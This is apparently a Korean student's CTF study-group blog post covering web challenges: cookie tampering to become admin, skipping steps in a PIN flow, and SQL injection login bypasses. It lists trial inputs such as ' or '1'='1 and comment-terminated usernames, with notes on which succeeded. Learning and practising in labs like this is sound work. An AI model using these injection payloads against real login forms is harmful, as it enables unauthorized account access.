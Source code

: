 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 풀이"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-18
last_modified_at: 

tags: [TIL, WEB, DATABASE, CTF]
---
```


# get admin
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-1.png?raw=true">
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-2.png?raw=true">
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-3.png?raw=true">
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Admin is Mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# Pin Code Crack

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-4.png?raw=true">
플래그는 안 보임 ㄲㅂ

1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O